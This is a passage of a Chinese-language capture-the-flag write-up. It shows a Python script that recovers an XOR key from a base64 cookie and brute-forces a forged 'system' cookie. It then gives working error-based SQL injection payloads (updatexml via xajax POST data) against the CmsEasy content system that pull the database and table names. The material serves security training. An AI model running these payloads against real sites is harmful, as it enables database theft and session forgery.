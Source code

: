 ```py
import requests
import base64

url = 'http://036fb8c596914fd18ad96399893a61dd9da80da355bf450e.changame.ichunqiu.com/fl3g_ichuqiu.php'
cookie = requests.get(url).cookies['user']

txt = base64.b64decode(cookie)
rnd = txt[:4]
ttmp = txt[4:]

key = list('aaaaaa')
guest = list('guest')
system = list('system')

for i in range(5):
  guest[i] = chr(ord(guest[i]) + 10)
for i in range(5):
  key[i] = chr(ord(ttmp[i]) ^ ord(guest[i]))

for i in range(6):
  system[i] = chr(ord(system[i]) + 10)

cookies = []
for c in '1234567890abcdef': # md5
  key[5] = c
  ttnew = ''
  for i in range(6):
    ttnew += chr(ord(key[i]) ^ ord(system[i]))
  cookies.append(base64.b64encode(rnd + ttnew))

for i in cookies:
  cookie = {'user': i}
  r = requests.get(url=url, cookies=cookie)
  print r.text
```


这题才应该叫爆破。。最后其实是爆破 `key` 的第 6 位才出的结果。

## YeserCMS
进入 CMS 乱点一波发现是从 cmseasy，网上查到了 [无限制报错注入漏洞](https://shuimugan.com/bug/view?bug_no=137013)。

仿照漏洞 payload 来进行注入，POST 数据：
```
xajax=Postdata&xajaxargs[0]=<xjxquery><q>detail=xxxxxx',(updatexml(1,concat(0x7e,mid((select group_concat(concat(database())) ),1,32),0x7e),1)),NULL,NULL,NULL,NULL,NULL,NULL)-- </q></xjxquery>
```
得到数据库名 `Yeser`。

```
xajax=Postdata&xajaxargs[0]=<xjxquery><q>detail=xxxxxx',(updatexml(1,concat(0x7e,mid((select group_concat(table_name) from information_schema.tables where table_schema=database()),1,32),0x7e),1)),NULL,NULL,NULL,NULL,NULL,NULL)-- </q></xjxquery>
```
这里由于长度无法显示所有表，可以修改 `1,32` 的 `1` 来查看后续表，我们需要的是 `yesercms_user`。
